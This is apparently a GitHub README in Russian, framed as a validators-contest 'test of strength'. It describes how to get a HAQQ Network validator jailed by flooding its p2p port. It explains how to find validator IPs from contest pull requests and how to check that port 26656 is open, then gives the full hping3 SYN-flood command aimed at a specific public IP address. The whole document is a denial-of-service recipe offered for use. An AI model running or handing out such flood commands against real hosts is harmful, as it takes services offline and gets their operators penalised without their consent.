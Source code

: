 # To-Jail-Validator-in-HAQQ-Network
## Test of strength!
Логика действий - отправляем короткие TCP пакеты данных на p2p порт.
Чтоб узнать IP валидатора я воспользовалась поиском по пул реквестам в репозитории Github [validators-contest](https://github.com/haqq-network/validators-contest)<br/>
Затем иду на сайт [yougetsignal](https://www.yougetsignal.com/tools/open-ports/) , проверить открыт ли порт 26656.<br/>
Отправляем с помощью генератора пакетов **hping3**<br/>
Устанавливаем **hping3** командой **apt install hping3**<br/>
Команда запуска: **`hping3 -S -p 26656 -i u10 -d 1024 --flood 185.182.186.35`**<br/>
Выбираем активного валидатора,у которого виден IP адрес и открыт порт 26656  и можно начинать.<br/>
